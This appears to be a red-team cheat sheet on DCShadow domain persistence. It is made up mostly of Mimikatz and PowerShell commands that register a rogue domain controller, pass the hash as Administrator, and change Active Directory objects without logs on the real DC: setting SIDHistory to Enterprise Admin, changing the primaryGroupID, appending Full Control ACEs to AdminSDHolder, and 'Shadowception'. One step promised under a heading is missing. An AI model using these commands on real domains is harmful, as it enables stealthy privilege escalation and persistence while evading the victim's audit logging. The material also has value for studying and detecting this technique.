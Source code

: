 # Forest Persistence - DC Shadow

DCShadow permits to create a rogue Domain Controller on a standard computer in the AD. This permits to modify objects in the AD without leaving any logs on the real Domain Controller

The compromised machine must be in the root domain on the forest, and the command must be executed as DA (or similar)

The attack needs 2 instances on the compromised machine and Mimikatz.

1) One to start RPC servers with SYSTEM privileges and specify attributes to be modified

##### With Mimikatz
##### Set SYSTEM privs to the process

    !+
    !processtoken

##### Launch the server

    lsadump::dcshadow /object:<object_to_modify> /attribute:<attribute_to_modify> /value=<value_to_set>

2) And second with enough privileges (DA or otherwise) to push the values :

        sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:<hash> /impersonate
        lsadump::dcshadow /push

# Minimal Permissions

DCShadow can be used with minimal permissions by modifying ACLs of:

1) The domain object.

 - DS-Install-Replica (Add/Remove Replica in Domain)

 - DS-Replication-Manage-Topology (Manage Replication Topology)

 - DS-Replication-Synchronize (Replication Synchornization)

2) The Sites object (and its children) in the Configuration container.

 - CreateChild and DeleteChild

3) The object of the computer which is registered as a DC.

 - WriteProperty (Not Write)

4) The target object.

 - WriteProperty (Not Write)

Set-DCShadowPermissions can be used to setup automatically

#### To use DCShadow as user user1 to modify user2 object from machine machine-user1

    Set-DCShadowPermissions -FakeDC machine-user1 -SAMAccountName user2 -Username user1 -Verbose

#### Now, the second mimkatz instance (which runs as DA) is not required.

# Set Interesting Attributes

### Set SIDHistory to Enterprise Admin

    lsadump::dcshadow /object:user1 /attribute:SIDHistory /value:<domain_SID>-519

### Modify primaryGroupID

    lsadump::dcshadow /object:user1 /attribute:primaryGroupID /value:519

### Modify ntSecurityDescriptor for AdminSDHolder to add Full Control for a user

We just need to append a Full Control ACE from above for SY/BA/DA with our user's SID at the end.

#### 1) Read the current ACL of high priv groups

    (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

#### 2) Get the SID of our user and append it at the end of the ACLs. Then launch DCShadow like this :

### Set a SPN on a user

    lsadump::dcshadow /object:user1 /attribute:servicePrincipalName /value:"Legitime/User1"

# Shadowception

We can even run DCShadow from DCShadow, which is Shadowception

We need to append following ACEs with our user's SID at the end:

1) On the domain object: (OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)

2) On the attacker computer object: (A;;WP;;;UserSID)

3) On the target user object: (A;;WP;;;UserSID)

4) On the Sites object in Configuration container: (A;CI;CCDC;;;UserSID)

### Get the ACLs

Get the ACLs for the Domain Object :

    (New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=domain,DC=local")).psbase.ObjectSecurity.sddl

For the attacker machine:

    (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=machine-user1,CN=Computers,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

For the target user:

    (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=user2,CN=Users,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

For the Site Container:

    (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

### Stack the queries

After have get the ACLs and have appended the new ACEs for each one, we can stack the different queries to make a big DCShadow query

For each one :

    lsadump::dcshadow /stack /object:<object> /attribute:ntSecurityDescriptor /value:<newACL_after_the_append>

THEN

    lsadump::dcshadow

### DCShadow can now be run from a user DCShadow-ed.

